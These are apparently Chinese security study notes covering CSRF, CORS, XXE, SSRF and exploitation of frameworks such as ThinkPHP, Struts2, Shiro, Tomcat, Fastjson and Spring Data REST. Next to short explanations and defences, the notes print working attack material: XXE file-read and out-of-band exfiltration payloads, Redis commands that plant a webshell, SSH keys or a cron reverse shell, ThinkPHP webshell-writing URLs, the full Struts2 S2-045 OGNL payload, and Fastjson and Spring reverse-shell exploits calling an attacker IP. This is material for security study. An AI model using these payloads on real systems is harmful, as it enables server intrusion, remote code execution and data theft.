

# 第一天

## CSRF

### 1. 概述

#### (1). 基础

* 强制终端用户在当前对其进行身份验证后的Web应用程序**执行非本意的操作**，CSRF的着重点在**伪造更改状态的请求**，**而不是盗取数据**，因为攻击者无法查看对伪造请求的响应。

#### (2). 原理

##### a. 原理

* CSRF是一种**欺骗**受害者提交恶意请求的攻击，他**继承了受害者的身份和权限**，代表受害者执行**非本意、恶意**的操作

  

##### b. 关键点

* 对于大多数站点，浏览器请求**自动发送**与站点关联的所有凭据，因此，如果用户当前已对该站点进行了身份验证，则该站点**无法区分**受害者发送的伪造请求和受害者发送的合法请求

#### (3). 满足条件

* 登陆**受信任网站**A，并在**本地生成Cookie**
* 在**不登出A**的情况下，**访问危险网站**B

#### (4). 危害

1. 强制用户**执行状态更改**的请求，例如转移资金、更改其电子邮件地址等
2. 管理员账户，则可能**危及整个Web应用程序**

#### (5). 防御

1. 验证Referer字段
   * 如果Referer是**其他网站**，则有可能是CSRF攻击，考虑拒绝该请求
2. 添加Token验证
   * 在HTTP请求中以参数的形式加入一个随机产生的token，并在服务器端建立拦截器来验证token，如果请求中**没有token或token不正确**，则可能是CSRF攻击
3. 二次验证
   * 在转账等**关键操作**之前提供**当前的用户密码**或**验证码**
4. 用户养成良好习惯

#### (6). 与XSS区别

##### a. 原理上

* XSS是将**恶意代码插入到html页面**中，当用户浏览页面时，插入的恶意代码被执行，从而达到目的
* CSRF是一种**欺骗受害者**提交恶意请求的攻击，代表受害者执行**非本意、恶意**的操作

##### b. 其他角度

1. XSS针对**客户端**，CSRF针对**服务端**
2. XSS是**利用合法用户**获取信息，CSRF是**伪造成合法用户**发起请求
3. CSRF危害性高于XSS，且相比难以防御
4. XSS有局限性，CSRF没有局限性
5. XSS可以达到CSRF的效果，反之不行

### 2. 同源策略

* 同源，即指相同**域名、端口、协议**

#### (1). 概述

1. 同源策略是浏览器的一个**安全功能**，**不同源**的客户端脚本在**没有明确授权**的情况下，不能读写对方资源
2. 同源策略限制了从一个源加载的文档或脚本如何与来自另一个源的资源进行交互
3. 这是一个用于**隔离潜在恶意文件**的重要安全机制

#### (2). 受约束对象

* **DOM**、**Cookie**、第三方插件、**XMLHttpRequest**

#### (3). 不受约束对象

* **重定向、页面中的链接、表单提交**
* 跨域资源的引入是可以的，但是js不能读写加载的内容，如嵌入到页面中的`<script>````<link>``<iframe>`等待src属性的标签

#### (4). 非同源受到的限制

1. Cookie、LocalStorage、IndexDB无法读取
2. DOM无法获得
3. AJAX请求不能发送

### 3. 跨域问题

#### (1). 概念

* 不同源的脚本**不能操作其他源**下面的对象，因此**不同域之间**请求数据的操作，称为跨域

#### (2). 方法

##### a. document.domain跨域

###### ①概述

* 两个页面一级域名相同，**只是二级域名不同**，可以通过设置**document.domain**来共享Cookie

###### ②特点

1. 只能在父域名与子域名之间使用
2. 存在安全问题，当一个站点被攻击后，另一个站点会引起安全漏洞
3. 只使用于Cookie和iframe窗口

```cmd
网页A：http://a.baidu.com/index.html
网页B：http://b.baidu.com/index.html

将document.doamin属性设置为相同，例如document.domain=‘baidu.com’，就能实现两个页面之间的任意通信
```

##### b. JSONP跨域

###### ①说明

* 利用`<script>`的**src不受同源策略约束**来实现跨域获取数据
* **jsonp(JSON with Padding)**是json的一种“使用模式”，可以让网页从别的域名那获取资料，即跨域读取数据。

###### ②存在问题

1. **存在安全问题**，需要网站双方商议基础token的身份验证
2. **只能是GET**
3. 可能被注入恶意代码，篡改页面内容，可以采用字符串过滤来规避此问题

##### c. CORS跨域

###### ①说明

1. CORS是一个W3C标准，允许浏览器向跨源服务器发送**XMLHttpRequest**请求
2. 利用**JavaScript无法控制HTTP头**的特点，通过目标返回的**HTTP头授权**是否允许跨域访问

##### d. CORS漏洞检测与利用

* CORS(Cross-Origin Resource Sharing)，跨域资源共享，是HTML5的一个新特性，不同于古老的jsonp只能get请求

###### ①检测方式

1. curl

   ```cmd
   curl https://www.baidu.com -H "Origin:https://qq.com" -I
   ```

2. burp抓包，查看返回包

   ```
   tips：Access-Control-Allow-Origin的值，
   值为Null，意味着信任任何区域
   ```

# 第二天

## XXE

### 1. XML介绍

#### (1). 概述

* XML(The Extensible Markup Language,可扩展标识语言)，最初目的是弥补HTMl的不足，后来逐渐用于**网络数据的转换和描述**
* XML用于**传输数据**，而不是显示数据

#### (2). 与HTML区别

* HTML用于**展示数据**，XML用于**传输数据**

#### (3). 语法结构

* 分为2部分，一部分是**标签的定义**，一部分是**标签的解释**(DTD，Document Type Defination)

  

#### (4). DTD文档

##### a. 概述

1. DTD使数据格式之间**按照相同的标准来传输**
2. DTD是一种XML**约束模式**语言，用来**解释XML文档**

##### b. 类型

* **内部**DTD文档和**外部**DTD文档

##### c. 语法结构

###### ①内部DTD

* ```dtd
  <!DOCTYPE 根元素[定义内容]>
  ```

  

###### ②外部DTD

* 使用**system**关键字

* ```dtd
  <!DOCTYPE 根元素 SYSTEM "DTD文件路径">
  ```

1. 新建一个DTD文档outdtd.dtd

   ```dtd
   <?xml version="1.0"?>
   <!ELEMENT note (to.from,heading,body)>
   <!ELEMENT to (#PCDATA)>
   <!ELEMENT from (#PCDATA)>
   <!ELEMENT head (#PCDATA)>
   <!ELEMENT body (#PCDATA)
   ```

2. 新建一个XML文档outdtd.xml

   ```xml
   <?xml version="1.0"?>
   <! DOCTYPE note SYSTEM "outdtd.dtd">
   <note>
       <to>ichunqiu</to>
       <from>Hello</from>
       <head>safe</head>
       <body>666</body>
   </note>
   ```

###### ③内外结合

* ```dtd
  <!DOCTYPE 根元素 SYSTEM "DTD文件路径" [定义内容]>
  ```

1. 新建一个DTD文档outdtd.dtd

   ```dtd
   <?xml version="1.0" encodeing="UTF-8"?>
   <!ELEMENT from (#PCDATA)>
   <!ELEMENT head (#PCDATA)>
   <!ELEMENT body (#PCDATA)
   ```

2. 新建一个XML文档outdtd.xml

   ```xml
   <?xml version="1.0"?>
   <! DOCTYPE note SYSTEM "outdtd.dtd">[
   <!ELEMENT note (to,from,heading,body)>
   <!ELEMENT to (#PCDATA)>
   ]
   <note>
       <to>ichunqiu</to>
       <from>Hello</from>
       <head>safe</head>
       <body>666</body>
   </note>
   ```

#### (5). XML实体

##### a. 概述

* XML实体，即XML语言的变量，有实体名(变量名)和实体值(变量值)，可以通过`&` `%` `/`引用

##### b.实体类型

* **普通**实体和**参数**实体

  

##### c. 支持的协议


##### d. XML实体引用

### 2. XXE漏洞

#### (1). 概述

* XXE漏洞也叫XML外部实体引入，XXE漏洞发生在应用程序**解析XML输入时**，没有禁止外部实体的加载，导致**可加载恶意外部文件**

#### (2). 产生

* 对上传的xml文件**没有进行过滤**，导致可以**上传恶意xml文件**

#### (3). 危害

1. 读取任意文件
2. 执行系统命令
3. 内网端口扫描
4. 攻击内网其他网站

#### (4). 防御

1. **禁止使用外部实体**，例如`ibxml_disable_entity_loader(true)`
2. **过滤**用户提交的**XML数据**，防止出现非法内容

#### (5). 利用

##### a. 本地引用任意文件

```xml-dtd
<!--读取Linux系统-->
#payload：
<?xml version="1.0"?>
<!DOCTYPE note[
    <!ENTITY content SYSTEM "file:///etc/passwd">
    ]>
&content;

<!--读取windows系统-->
#payload：
#读取Windows系统的配置文件
<?xml version="1.0"?>
<!DOCTYPE note[
<!ENTITY content SYSTEM "file:///c:/windows/win.ini">
]>
&content;
```

##### b. 远程引用任意文件

```dtd
<!--读取windows系统-->
#payload：
<?xml version="1.0"?>
<!DOCTYPE note[
<!ENTITY % test SYSTEM "http://192.168.71.49:80/1.dtd">
%test;
]>
&xxe;

<!--外部文件1.dtd内容-->
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
```

##### c. 远程端口探测

###### ①payload

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY  test SYSTEM "http://ip:探测端口号/test/">
]>

&xxe;
```

###### ②实例

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY  test SYSTEM "http://ip:192.168.71.59:80/test/">
]>

&test;
```


##### d. RCE

* **服务器配置不当/开发内部应用**导致
* php环境中安装了**expect扩展**

###### ①payload

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY  test SYSTEM "expect://系统命令">
]>
&test;
```

###### ②实例

#### (6). 回显方式

##### a. 有回显

###### ①方式

1. 在xml内部DTD中，定义一个外部参数实体引入外部dtd，外部参数实体的值是外部dtd的url，
2. 在外部dtd文件中，定义一个外部普通实体实体，外部实体的值是payload
3. 在内部dtd中引用参数实体，在xml中引用外部dtd的外部实体 

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY  test SYSTEM "file:///etc/passwd">
]>
&test;
```

###### ②用途

1. XXE的扩展利用
2. 内网探测机器开放端口
3. 进行内网探测

##### b. 无回显

* 采用数据外带的方式

  ```xml-dtd
  <!--1.dtd文件内容-->
  <!ENTITY % x SYSTEM "php://filter/read-convert.base64-encode/resource=doLogin.php">
  <!ENTITY % y "<!ENTITY &#37; z SYSTEM 'http://192.168.71.57/?data=%x'>">
  
  <!--payload-->
  <?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE abc [<!ENTITY % a SYSTEM "http://192.168.71.57/xxe/2.dtd">
  %a;%y;%z;
  ]>
  
  %x;
  ```

  

## SSRF

### 1. 概述

#### (1). 概述

* SSRF(Server-side Request Forgery，服务端请求伪造)是一种由**攻击者**构造形成**由服务端发起请求**的安全漏洞，一般情况下，SSRF攻击的**目标是从外网无法访问的内网系统**。正是由于它是**由服务端发起**的，所以他能够请求到**与他相连而与外网隔离**的内部系统

#### (2). 存在位置

1. 分享：通过URL地址分享网页内容
2. 转码服务
3. 在线翻译
4. 图片加载与下载：通过URL地址加载或下载图片
5. 图片、文章收藏功能
6. 未公开的api实现以及其他调用URL的功能
7. 从URL关键字中寻找

#### (3). 危害

1. 端口扫描
2. 内网Web应用指纹识别
3. 攻击内网Web应用
4. 读取本地文件

#### (4). 防御

1. 限制请求的**端口只能为Web端口**，只允许访问HTTP和HTTPS的请求
2. 设置**白名单**，或**限制内网IP**，以防止对内网进行攻击
3. 禁止**30x跳转**
4. 屏蔽返回的详细信息

#### (5). 相关危险函数

* 涉及到**网络访问**，**支持伪协议的网络读取**的函数

1. file_get_content()
   * 把文件**写入字符串**，若为内网url的文件，**会先读出来再写入**
2. curl_exec()
   * 常通过**file**、**dict**、**gopher**协议来渗透
3. fsockopen()
   * 打开一个**网络连接**或**Unix套接字连接**

涉及协议.png)

### 2. 漏洞利用

#### (1). 端口扫描

* 当设置参数URL为内网地址时，会**泄露内网信息**，比如内网的某个服务是否开放

  ```html
  ?url=ip:port
      <!--开放端口-->
      	返回服务信息，或是403报错
      <!--未开放端口-->
      	返回404
  ```


#### (2). 获取正常文件

```
http://192.168.71.15/ssrf3.php?url=http://www.baidu.com/robots.txt
```


#### (3). 读取系统本地文件

* 利用**file协议**可以**任意读取**系统本地文件

  

#### (4). 内网Web应用指纹识别

* 大多数Web应用框架都有一些**独特的文件和目录**，通过这些文件可以**识别出应用的类型**，甚至**详细的版本**，进而作出进一步针对攻击

```cmd
#探测是否安装了phpmyadmin
http://192.168.71.15/ssrf3.php?url=http://localhost/phpmyadmin/README
```

#### (5). 端口探测

* 由于XXE漏洞可以利用**http协议**，故**利用该http请求去探查内网**，进行SSRF攻击
* 可以根据响应时间/长度判断端口是否开放

### 3. Redis+gopher

#### (1). 概述

* Gopher协议是http协议的前身，现在用的**越来越少**
* Gopher协议可以说是SSRF的万金油，利用此协议**可以攻击内网的redis、ftp等**，也可以**发送GET、POST请求**，极大拓宽了SSRF的攻击面

#### (2). 利用条件

* Redis**未授权**或通过**弱口令认证**访问到Redis服务器

#### (3). Redis特点

1. **未授权访问**，在访问redis数据库时，**不需要提供用户名和密码**
2. 具有root权限
3. 可以读写文件
4. 默认端口号为：**6379**

#### (4)方法

##### a. 绝对路径写Webshell

###### ①前提

* 需要知道Web的绝对路径

###### ②构造payload

1. redis命令

   ```
   flushall
   set 1 '<?php eval($_GET["cmd"]); ?>'
   config set dir /var/www/html
   config set dbfilename shell.php
   save
   ```


##### b. 写SSH公钥

###### ①前提

* 目标机开启SSH服务

###### ②说明

* 如果.ssh目录存在，则直接写入~/.ssh/authorized_keys，如果不存在，则利用crontab创建该目录

###### ③方法

* 本地生成RSA公钥私钥对，将公钥通过redis写入~/.ssh/authorized_keys，实现SSH免密登录

##### ④构造payload

1. redis命令

   ```
   flushall
   set 1 '生成的RSA公钥私钥对'
   config set dir /root/.ssh/
   config set dbfilename authorized_keys
   save
   ```

##### c. 写crontab计划任务反弹shell

###### ①前提

* **Centos系统**

* crontab定时文件位置

  | 目录                          | 说明                                                         |
  | ----------------------------- | ------------------------------------------------------------ |
  | /etc/crontab                  | 一定存在的文件                                               |
  | /etc/cron.d/*                 | 将任意文件写入到该目录下，效果和crontab相同，利用这个目录可以做到不覆盖任何其他文件的情况下进行反弹shell |
  | /var/spool/cron/root          | centos系统下root用户的cron文件                               |
  | /var/spool/cron/crontabs/root | debian系统下root用户的cron文件                               |

###### ②payload

```bash
flushall
set 1 '\n\n*/1 * * * * bash -i >& /dev/tcp/[反弹机IP]/[port] 0>&1\n\n'
config set dir /var/spool/cron
config set dbfilename root
save
```

##### d. 主从复制RCE

### 4. 绕过

#### (1). 限制域名

1. 采用http基本身份认证的绕过方式，即使用@绕过，如：http://www.aaa.com@www.bbb.com@www.ccc.com

* 在对@的解析域名中，**不同的处理函数**存在**处理差异**，如：PHP的parse_url中会识别www.ccc.com，而libcurl则识别为www.bbb.com

#### (2). 限制请求ip

1. 短网址绕过
2. 特殊域名
   * xip.io可以指向任意域名，即``127.0.0.1.xip.io =>  127.0.0.1`
3. 进制转换
   * `127.0.0.1 => 0x7f.0.0.1`

#### (3). 限制请求为http

1. 采取302跳转，使用302跳转地址
2. 采取短地址

# 第三天

## 框架漏洞

### 1. ThinkPhp

#### (1). 概述

#### (2). 漏洞总结

##### a. 识别

1. ico图标判断
2. 报错页面信息
3. 错误传参报错
   * 特殊指纹出现logo(p3.1、p3.2版本)
4. body特征
   * body里面有"**十年磨一剑**"或者"**ThinkPHP**"
5. wappalyzer插件

#### (3). 漏洞利用

##### a. 5.0.20RCE漏洞

###### ①漏洞产生

* 版本5中，没有正确处理控制器名，导致在网站**没有开启强制路由**的情况(默认情况)下可以**执行任意方法**，从而导致RCE漏洞

###### ②影响版本

* 5.0.x < ThinkPHP < 5.0.23
* 5.1.x < ThinkPHP < 5.1.31

###### ③手动验证

```php
#验证漏洞
?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
#执行系统命令
?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
#写入webshell
?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=<?php @assert($_REQUEST['cmd']);?>

#验证webshell
shell.php?cmd=phpinfo();
```


###### ④工具验证

##### b. 6.0.12文件包含漏洞

###### ①漏洞产生

* ThinkPHP**开启多语言功能**时，攻击者可以通过**lang参数**和**目录穿越**实现文件包含，当存在**其它扩展模块，如pear扩展**时，攻击者可以进一步利用文件包含实现RCE
* 被包含文件**后缀名一定是php**

###### ②影响版本

* 6.0.1 <= ThinkPHP <= 6.0.16

###### ③手动验证

* 漏洞环境中，pearcmd的路径在：/usr/local/lib/php/pearcmd.php

```php
#写文件
	写在临时路径
		?lang=../../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&<?=phpinfo()?>+/tmp/shell.php
    写在web根目录绝对路径
        ?lang=../../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&<?=phpinfo()?>+/var/www/html/shell.php
#包含文件
?lang=../../../../../../../../../../tmp/shell
#写webshell
?lang=../../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&<?=@eval($_REQUEST['cmd']);?>+/tmp/cmd.php
#包含文件webshell
?lang=../../../../../../../../../../tmp/cmd&cmd=phpinfo();
#连接webshell
```


### 2. Laravel

#### (1). 漏洞原理

* 开启了**Debug模式**，由于Laravel自带的**Ignition组件**对**file_get_contents()和file_put_contents()**函数的不安全使用，攻击者可以通过发起恶意请求，构造**恶意Log文件**等方式**触发Phar反序列化**，最终造成RCE

#### (2). 影响版本

* Laravel <= 8.4.2

#### (3). 漏洞利用

* 通过phar://协议进行反序列化操作

* 使用工具`CVE-2021-3129`

  

### 3. Struts2

#### (1). S2-045漏洞原理

* 在使用**基于Jakarta插件的文件上传**功能时，有可能存在**远程命令执行**，用户可在**上传文件时**修改HTTP请求头中的**Content-Type值**来触发该漏洞，进而执行系统命令

#### (2). 影响版本

* Struts2.3.5 - 2.3.31
* Struts2.5 - 2.5.10

#### (3). 漏洞复现

##### a. 手工

1. 随意上传文件，抓取数据包

2. 修改content-type字段

   ```cmd
   Content-Type:"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"boundary=----WebKitFormBoundaryXx80aU0pu6vrsV3z
   ```
   
3. 在Content-Type字段中修改命令

##### b. 工具测试

1. 使用工具检测漏洞

   

2. 选择漏洞，执行命令

   

#### (4). 判断Struts2框架

##### a. 常规办法

1. 通过页面回显的错误消息来判断
2. 通过网页`action`**后缀**来判断，有可能不准
3. 判断**/struts/webconsole.html**是否存在进行判断，需要devMode = True

##### b. 其他办法

1. 通过actionErrors，要求是对应的Action需要继承来自ActionSupport类

   * http://www.target.com/?actionErrors=1111

   | 可能情况                                                 |
   | -------------------------------------------------------- |
   | 页面直接出现404 or 500等错误                             |
   | 页面输出了与业务有关的错误消息，或者1111被回显到了页面上 |
   | 页面的内容结构发生了明显的改变                           |
   | 页面发生了重定向                                         |

### 4. Shiro

#### (1). Shiro550反序列化

##### a. 原理

* Apache Shiro框架提供了**记住密码的功能**(RememberMe)，用户登录成功后会生成经过**加密**并**编码的cookie**。在服务端对rememberMe的cookie值，先base64解码，再AES解密，最后在反序列化，这就导致了反序列化RCE漏洞

* payload：
  * 命令 => 序列化 => AES加密 => base64编码 => RememberMe Cookie值

##### b. 影响版本

* Apache Shiro < 1.2.4(该版本往前使用**默认AES秘钥**)

##### c. 漏洞复现

* 使用工具

* 1. 访问漏洞url，登录并抓包

     

  2. 获取key，通过工具爆破

     

  3. 获取到利用链

     

  4. 执行命令
  
     
  
  5. getshell
  
     
  
     

##### d. 判断Shiro框架

* 返回包中会包含`RememberMe=deleteMe`字段，这种情况大多发生在登录处；如果没有该字段，可以在数据包中的Cookie中添加`rememberMe=deleteMe`字段

#### (2). Shiro721反序列化

##### a. 原理

* 由于Apache Shiro **cookie**中通过**AES-128-CBC模式加密**的**rememberMe字段**存在问题，用户可通过**Padding Oracle Attack**来构造**恶意的**rememberMe字段，并重新请求网站，进行反序列化攻击，最终导致任意代码执行。

##### b. 前提

* 进行攻击前需要**获取一个合法用户的Cookie**

##### c. 流程

1. 登录网站获取合法Cookie
2. 使用rememberMe字段进行Padding Oracle Attack，获取intermediary
3. 利用intermediary构造出恶意的反序列化密文作为Cookie
4. 使用新的Cookie请求网站执行攻击

##### d. 影响版本

* **Apache Shiro <= 1.4.1**

#### (3). 两者差异

1. 相同点
   * 都是生成恶意RememberMe Cookie反序列化执行代码
2. 不同点
   * Shiro550序列化利用**需要知道AES加密的key**，使用这个key直接构造Payload
   * Shiro721序列化是利用**已登录用户的合法RememberMe Cookie值**，通过服务器对填充秘钥的不同响应，从而判断加密值是否被正确填充，构造Payload

### 5. Tomcat

#### (1)任意文件写入漏洞

* **CEV-2017-12615**

##### a. 原理

* 当Tomcat启用了PUT方法(readonly初始化参数由默认值设置为false)，攻击者将有可能通过精心构造的攻击请求数据包上传包含任意代码的JSP文件，JSP文件中的恶意代码将能够被服务器执行，导致服务器上的数据泄露或获取服务器权限

##### b. 漏洞检测

* 通过访问：http://localhost:8080，抓包后发起PUT请求，响应包若为201，即可确认该漏洞

##### c. 漏洞复现

1. 直接利用PUT方法写webshell
2. 访问文件连接webshell

#### (2)任意文件读取漏洞

* **CVE-2020-1938(GhostCat)**

##### a. 原理

* 由于Tomcat在**处理AJP请求**时，**未对请求做任何验证**，攻击者可以通过Tomcat AJP Connector读取或包含Tomcat上所有webapp目录下的任意文件，导致产生任意文件读取漏洞

##### b. 漏洞检测

* 通过**工具扫描开放8009端口**即存在CVE-2020-1938幽灵猫漏洞

#### (3)远程部署漏洞

##### a. 原理

* 这是JSP/PHP网站远程部署的一个工具，管理员只需要远程上传一个**WAR格式的文件**，便可以发布到网站，导致**远程部署恶意文件**

##### b. 检测

* 通过访问http://loaclhost:8080/manager管理地址，尝试弱口令或默认口令，若能登录成功，则存在该漏洞

##### c. 漏洞复现

1. 本地准备jsp的webshell，通过弱口令进入后台

   

2. 利用压缩软件或jar压缩成war后缀

   ```
   jar -cvf shell.war shell.jsp
   ```

3. 上传war包部署到服务器

   

4. 访问webshell成功getshell

   


### 6. JBoss

#### (1). 5.x/6.x反序列化漏洞

* CVE-2017-12149

##### a. 原理

* 该漏洞为**Java反序列化错误类型**，存在于JBoss的**HttpInvoker组件中的ReadOnlyAccessFilter过滤器中**，该过滤器没有进行**任何安全检查**的情况下，尝试将来自客户端的数据流进行反序列化，从而导致了漏洞

#### (2). 远程部署漏洞

##### a. 原理

* 这是JSP/PHP网站远程部署的一个工具，管理员只需要远程上传一个**WAR格式的文件**，便可以发布到网站，导致**远程部署恶意文件**

##### b. 漏洞检测

* 使用工具 

##### c. 漏洞复现

1. 访问JBoss首页，http://localhost:8080/，并通过弱密码进入后台(admin/vulhub)

   

2. 上传war包部署到服务器

   

3. 访问webshell成功getshell

   


### 7. WebLogic

#### (1)基本信息

1. 常用端口：**7001**
2. 后台登录地址：http://localhost:7001/console

#### (2)控制台部署漏洞

* 默认密码：weblogic/Oracle@123

##### a. 漏洞复现

#### (3)RCE漏洞

* CVE-2023-21839

##### a. 原理

* 可在**未经身份验证**的情况下，通过**T3、IIOP协议远程访问**并破坏易受攻击的WebLogic Server，陈工利用该漏洞则可能导致未授权访问和敏感信息泄露

##### b. 漏洞复现

# 第四天

## 框架漏洞

### 1. Fastjson反序列化

#### (1). 原理

* Fastjson在解析json的过程中，支持使用**autoType**来**实例化**某一个具体的类，并调用该类的**set/get方法**来访问属性。

#### (2). 利用流程

1. 开启HTTP服务器，并将恶意类放在目录下
2. 开启恶意RMI服务器
3. 攻击者控制url参数为上一步开启的恶意RMI服务器地址
4. 恶意RMI服务器返回ReferenceWrapper类
5. 目标(JNDI_Client)执行lookup操作的时候，

#### (3). 利用总结

1. 基于RMI、LDAP
2. RMI(Remote Method Invoke，远程方法调用)
3. JNDI指一个接口，该接口下会有多种目录系统服务的实现，通过名称等去找到相关的对象并下载实现
4. LDAP指轻量级目录服务协议

#### (4). 限制条件

##### a. RMI

* jdk< 6u132、7u131、8u121

##### b. LADP

* jdk < 11.0.1、8u191、7u201、6u211
* 8u191中，关闭了JNDI远程类加载

#### (5). 漏洞复现

1. 拉取docker并成功部署

2. 编写恶意类并编译

   ```java
   // javac TouchFile.java
   import java.lang.Runtime;
   import java.lang.Process
    public class fastjsonshell {
        static {
                try {
                    Runtime rt = Runtime.getRuntime();
                    String[] commands = {"/bin/bash","-c", "bash -i >& /dev/tcp/192.168.41.54/8888 0>&1"};
                    Process pc = rt.exec(commands);
                    pc.waitFor();
                } catch (Exception e) {
                    // do nothing
                }
        }
   }
   
   //编译代码
   javac fastjsonshell.java
   ```

   

3. 拉取工具并使用maven打包

   ```
   git clone https://github.com/mbechler/marshalsec.git
   ```

   

   

4. 在攻击机上开启web服务器监听

   ```
   python -m http.server 4444
   ```

   

5. 使用工具开启RMI服务器并监听

   ```
   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.167.41.54:9090/#fastjsonshell" 9999
   ```

   

6. 开启反弹Shell端口监听

   ```
   nc -lvvp 8888
   ```

   

7. 抓包，添加payload

   

8. 成功反弹

### 2. Spring Data Set RCE

#### (1). 影响版本

* Spring Data Rest version < 2.5.12,2.6.7,3.0 RC3
* Spring Boot version < 2.0.0M4
* Spring Boot release trains < Kay-RC3

#### (2). 漏洞复现

1. docker部署

2. 检测是否存在漏洞

   

3. 开启监听

   

4. 抓包，修改数据包

```
bash -i >& /dev/tcp/192.168.41.54/1234 0>&1
=>
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQxLjU0LzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}
=>
98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,81,120,76,106,85,48,76,122,69,121,77,122,81,103,77,68,52,109,77,81,61,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125

[
	{"op":"replace",
	"path":"T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,81,120,76,106,85,48,76,122,69,121,77,122,81,103,77,68,52,109,77,81,61,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname",
	"value":"vulhub"
	}
]
```


5. 成功反弹shell


### 3. Log4j

#### (1). 原理

* Log4j2是基于java的日志记录工具，支持JNDI协议

#### (2). 漏洞复现


